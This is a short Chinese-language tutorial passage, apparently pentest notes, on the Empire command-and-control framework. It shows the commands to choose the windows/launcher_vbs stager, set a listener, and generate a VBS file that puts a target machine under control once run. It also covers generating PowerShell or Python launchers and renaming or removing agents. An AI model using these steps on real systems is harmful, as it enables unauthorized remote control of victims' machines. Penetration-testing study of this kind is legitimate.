 	(Empire: listeners) > usestager windows/launcher_vbs (双击tab键查看所有模块)
	(Empire: stager/windows/launcher_vbs) > info
	必须设置listener的名字，可设置生成位置
	(Empire: stager/windows/launcher_vbs) > set Listener y
	(Empire: stager/windows/launcher_vbs) > execute
	可生成vbs，靶机执行即可上线。
	使用launcher命令直接生成powershell或python脚本
	>launcher powershell Listener-Name
	使用rename对agents更名
	>rename 6NMCW4ZB target1
	使用main命令放回主菜单
	>list stale 列出失去权限的机器
	>remove stale 去除失去权限的机器